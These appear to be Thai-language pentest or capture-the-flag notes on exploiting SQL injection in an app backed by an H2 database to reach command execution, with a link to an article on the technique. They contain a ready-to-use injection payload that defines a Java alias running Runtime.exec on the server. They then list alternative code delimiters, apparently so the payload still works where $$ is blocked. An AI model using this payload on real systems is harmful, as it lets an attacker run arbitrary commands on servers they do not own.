






ทำ sql injection ได้





ใช้ ้H2 database 

https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2





```
';CREATE ALIAS REVEXEC AS 'String shellexec(String cmd) throws java.io.IOException {
java.util.Scanner s = new
java.util.Scanner (Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
return s.hasNext() ? s.next() : ""; }'; -- -

```

`$$` ในบริบทที่คุณแสดงให้ดูเป็นส่วนหนึ่งของไวยากรณ์ของฐานข้อมูล H2 Database สำหรับการสร้าง alias หรือ function

ในระบบฐานข้อมูล H2:
- `CREATE ALIAS` ใช้สำหรับสร้างฟังก์ชันที่กำหนดเอง
- `$$` ใช้เป็นตัวคั่น (delimiter) สำหรับกำหนดจุดเริ่มต้นและจุดสิ้นสุดของโค้ด Java ที่จะรันภายในฐานข้อมูล

ตัวอย่างโครงสร้างทั่วไป:
```sql
CREATE ALIAS function_name AS $$
    // Java code here
$$;
```

H2 Database อนุญาตให้เขียน Java code โดยตรงภายในฐานข้อมูลเพื่อสร้างฟังก์ชันที่กำหนดเอง แต่การใช้งานแบบนี้ต้องระมัดระวังเรื่องความปลอดภัยมาก เพราะสามารถรันโค้ดใดๆ ก็ได้บนเซิร์ฟเวอร์

สำหรับการแทนที่ `$$` delimiter ใน H2 Database มีตัวเลือกหลายแบบ:

## ตัวคั่นอื่นๆ ที่ใช้ได้
```sql
-- ใช้ single quotes
CREATE ALIAS function_name AS '
    // Java code here
';

-- ใช้ custom delimiter อื่น
CREATE ALIAS function_name AS $BODY$
    // Java code here
$BODY$;

-- ใช้ delimiter แบบอื่น
CREATE ALIAS function_name AS $CODE$
    // Java code here
$CODE$;
```


